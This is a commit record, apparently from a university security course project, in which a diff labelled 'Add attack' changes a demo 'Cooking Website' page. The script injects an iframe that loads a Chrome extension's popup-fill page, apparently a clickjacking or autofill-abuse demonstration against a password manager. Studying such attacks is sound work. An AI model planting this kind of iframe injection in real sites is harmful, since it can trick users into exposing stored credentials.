

Before and after one commit to Agriad/DD2525-project-showcase, a website: page public/home.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add attack

```diff
--- a/public/home.html
+++ b/public/home.html
@@ -4,6 +4,7 @@
         <h1>Cooking Website</h1>
         <p>Logged in</p>
         <p id="text">placeholder</p>
+        <div id="attack"></div>
     </body>
     <script src="javascript/home.js"></script>
 </html>
--- a/public/javascript/home.js
+++ b/public/javascript/home.js
@@ -1,3 +1,8 @@
 function run() {
+    var iframe = document.createElement("iframe");
+    iframe.height = "10%";
+    iframe.width = "100%";
+    iframe.src = "chrome-extension://omkamdlakallckdjjcnglonboddelkmj/popupfilltab.html";
+    document.body.appendChild(iframe);
     alert("hello");
 }
```
